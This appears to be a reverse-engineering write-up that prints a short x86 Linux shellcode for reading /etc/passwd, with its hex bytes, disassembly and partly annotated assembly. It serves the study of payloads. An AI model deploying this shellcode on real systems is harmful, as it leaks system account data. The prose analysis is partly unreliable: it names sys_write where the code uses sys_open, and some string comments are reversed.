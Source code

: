 ## Shellcode analysis case 1

----

#### Shellcode - Reads /etc/passwd
```
\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x73\x73
\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f
\x65\x74\x89\xe3\xcd\x80\x93\x91\xb0\x03
\x31\xd2\x66\xba\xff\x0f\x42\xcd\x80\x92
\x31\xc0\xb0\x04\xb3\x01\xcd\x80\x93\xcd
\x80
```

Binary ninja graph:

![graph](https://raw.githubusercontent.com/x00pwn/lowlevel-shellcode-analysis/master/graph_images/case2-graph.png)

```
Disassembly-
0:  31 c9                   xor    ecx,ecx
2:  f7 e1                   mul    ecx
4:  b0 05                   mov    al,0x5
6:  51                      push   ecx
7:  68 73 73 77 64          push   0x64777373
c:  68 63 2f 70 61          push   0x61702f63
11: 68 2f 2f 65 74          push   0x74652f2f
16: 89 e3                   mov    ebx,esp
18: cd 80                   int    0x80
1a: 93                      xchg   ebx,eax
1b: 91                      xchg   ecx,eax
1c: b0 03                   mov    al,0x3
1e: 31 d2                   xor    edx,edx
20: 66 ba ff 0f             mov    dx,0xfff
24: 42                      inc    edx
25: cd 80                   int    0x80
27: 92                      xchg   edx,eax
28: 31 c0                   xor    eax,eax
2a: b0 04                   mov    al,0x4
2c: b3 01                   mov    bl,0x1
2e: cd 80                   int    0x80
30: 93                      xchg   ebx,eax
31: cd 80                   int    0x80
```

Analysis:

As usual, the shellcode starts by clearing out the ecx register, then it moves the linux `sys_write` syscall into the al register. Then the shellcode pushes the string `//etc/passwd` onto the stack in little endian format and split up.

```assembly
xor    ecx,ecx        ; clear out ecx as prep
mul    ecx            ; 
mov    al,0x5         ; linux syscall (sys_open, 0x05)
push   ecx
push   0x64777373     ; push 'dwss' to the stack
push   0x61702f63     ; push 'ap/c' to the stack
push   0x74652f2f     ; push 'te//' to the stack
mov    ebx,esp
int    0x80           ; sys interupt
```
